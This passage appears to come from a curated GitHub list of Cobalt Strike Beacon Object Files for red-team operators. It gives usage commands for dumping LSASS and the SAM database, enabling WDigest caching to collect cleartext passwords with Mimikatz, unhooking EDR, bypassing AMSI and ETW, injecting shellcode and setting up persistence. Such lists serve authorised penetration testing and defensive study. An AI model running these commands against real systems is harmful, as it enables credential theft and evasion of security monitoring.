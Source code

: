```
```
threadless-inject <pid> <dll> <export function> <shellcode path>
threadless-inject 1234 ntdll.dll NtOpenFile shellcode.bin --> Inject into existing process
```
  
- [**MiniDumpWriteDump**](https://github.com/rookuu/BOFs)<br />
Uses static syscalls to dump a process such as LSASS to output file<br />
```minidumpwritedump <PID> <path_of_dmp?>```

- [**SilentLsassDump**](https://github.com/josephkingstone/BOFs-2/)<br />
Uses direct syscalls generated from [https://github.com/outflanknl/InlineWhispers](InlineWhispers)<br />
Dump the LSASS process via the silent process exit mechanism into the C:\Temp directory<br />
```silentLsassDump <LSASS PID>```

- [**RegSave BOF**](https://github.com/EncodeGroup/BOF-RegSave)<br />
BOF to dump SAM, SYSTEM, and SECURITY database from a local system. <br />
```
bof-regsave c:\temp\ --> Dumps SAM database files to target folder C:\temp\
```

- [**Unhook BOF**](https://github.com/rsmudge/unhook-bof)<br />
Created by Raphael Mudge, this BOF will attempt to unhook userland APIs to bypass EDR<br />
Sort of the "hail mary" for attempting to unhook APIs<br />
 ```unhook```

- [**WdToggle**](https://github.com/outflanknl/WdToggle)<br />
Enables WDigest credential caching using direct system calls<br />
Bypasses Windows Credential Guard if enabled<br />
```
inline-execute WdToggle.o --> First enable WdDigest caching
logonpasswords --> Second, wait for users to login and then run Mimikatz to dump their newly cached cleartext passwords
```

- [**TrustedSec CS-Remote-OPs-BOF**](https://github.com/trustedsec/CS-Remote-OPs-BOF)<br />
Great repo of new BOFs from TrustedSec to follow up their SituationalAwareness BOFs.<br />
Includes dumping a process, decrypting Chrome keys, persistence techniques (registry, scheduled tasks, services), and more!
```
adcs_request --> Request an enrollment certificate
procdump --> Dump specified process to output file
reg_set --> Set/create a registry key
sc_create --> Create a new service
schtaskscreate --> Create a new scheduled task
setuserpass --> Set a users password
```

- [**Inject AMSI Bypass**](https://github.com/boku7/injectAmsiBypass)<br />
BOF that bypasses AMSI in a remote process with code injection<br />
```inject-amsiBypass <PID>```

- [**Inject ETW Bypass**](https://github.com/boku7/injectEtwBypass)<br />
Inject ETW Bypass into Remote Process via Syscalls<br />
```injectEtwBypass <PID>```

- [**BOF-patchit**](https://github.com/ScriptIdiot/BOF-patchit/)<br />
A very easy solution to patch AMSI or ETW. Patches AMSI/ETW for the currently running x64 process.
```
patchit check --> List if AMSI or ETW are currently patched
patchit all --> Patch both AMSI and ETW
patchit amsi --> Only patch AMSI
patchit etw --> Only patch ETW
